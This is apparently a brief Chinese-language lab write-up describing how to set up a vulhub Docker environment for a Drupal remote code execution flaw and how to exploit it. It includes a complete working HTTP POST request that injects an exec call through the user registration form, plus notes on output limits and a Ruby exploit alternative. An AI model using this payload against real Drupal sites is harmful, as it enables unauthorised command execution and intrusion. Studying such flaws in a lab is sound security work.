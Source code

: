 漏洞环境使用vulhub

0x00 环境搭建：  
切换到对应目录下  
docker-compose build  
docker-compose up -d  
访问http://172.16.35.128:8080/  
配置网站，选择english、standard、sqlite，然后配置帐号密码等信息  
网站配置完成

0x01 漏洞利用  
vulhub下的漏洞利用代码  
```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```
能执行命令id、pwd，但执行命令ls后只能显示部分文件，且不能执行带有空格的命令  
改用另一款ruby版的漏洞利用程序，执命令ls后，能显示全部文件，且能执行带有空格的命令
